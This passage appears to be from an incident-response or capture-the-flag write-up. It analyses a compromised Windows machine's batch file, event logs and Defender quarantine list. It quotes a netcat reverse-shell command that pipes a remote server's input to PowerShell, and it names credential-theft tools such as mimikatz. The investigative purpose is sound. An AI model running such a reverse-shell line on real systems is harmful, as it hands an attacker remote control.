 ```batch
nc 13.53.200.146 4953 -e powershell
```

This command connects to a remote server and execute everything it gets from the server using PowerShell. Note the timestamp of the file modification, it is around `3/5/2024 12:40 PM`.

### Event Log

Now we should definitely check out the PowerShell events in the `\Windows\System32\winevt\Logs` folder.

We can do an analysis with `chainsaw hunt` ([`chainsaw.csv`](files/chainsaw.csv)).

![chainsaw](media/chainsaw.png)

It identifies multiple suspicious PowerShell executions and additionally 4 files are Quarantined by Defender too.

```
C:\Users\tommyxiaomi\Documents\browser-pw-decrypt.exe
C:\Users\tommyxiaomi\Documents\mimikatz.exe
C:\Users\tommyxiaomi\Documents\fscan64.exe
C:\Users\tommyxiaomi\Documents\intel.exe
```
